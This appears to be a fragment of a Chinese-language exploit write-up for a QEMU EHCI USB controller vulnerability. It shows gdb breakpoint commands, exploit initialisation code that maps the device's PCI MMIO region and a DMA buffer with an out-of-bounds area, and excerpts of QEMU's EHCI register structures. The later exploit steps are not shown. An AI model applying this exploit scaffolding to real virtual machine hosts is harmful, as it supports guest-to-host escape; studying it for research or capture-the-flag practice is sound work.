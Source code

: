 ## Debug

断点

```c
b *0x0000555555ba8b7e do_token_setup<+204>->fprintf
handle SIGUSR1 nostop
```

### EXP

1. init

```c
mmio_fd = open("/sys/devices/pci0000:00/0000:00:1d.7/resource0", O_RDWR|O_SYNC);
mmio_mem = mmap(0, 0x1000,PROT_READ|WRITE, MAP_SHARED, mmio_fd, 0);
dmabuf = mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
entry = dmabuf + 4;
qh = dmabuf + 0x100;
qtd = dmabuf + 0x200;
setup_buf = dmabuf + 0x300;
data_buf = dmabuf + 0x1000;
data_buf_oob = dmabuf + 0x2000;
```

2. ehci结构

EHCI可以理解为是为USB2.0提供的接口规范。

- `EHCIState.opregbase`是包含很多控制寄存器，包括`usbcmd\periodiclistbase`等域，`opregbase`的偏移为0x20，此mmio空间的读写函数为`ehci_opreg_read|write`.

```c
static void usb_ehci_pci_init(Object *obj)
{
    DeviceClass *dc = OBJECT_GET_CLASS(DeviceClass, obj, TYPE_DEVICE);
    EHCIPCIState *i = PCI_EHCI(obj);
    EHCIState *s = &i->ehci;
    s->opregbase = 0x20;
    ...
}
union {
        uint32_t opreg[0x44/sizeof(uint32_t)];
        struct {
            uint32_t usbcmd;
            uint32_t usbsts;
            uint32_t usbintr;
            uint32_t frindex;
            uint32_t ctrldssegment;
            uint32_t periodiclistbase;
            uint32_t asynclistaddr;
            uint32_t notused[9];
            uint32_t configflag;
        };
    };
```
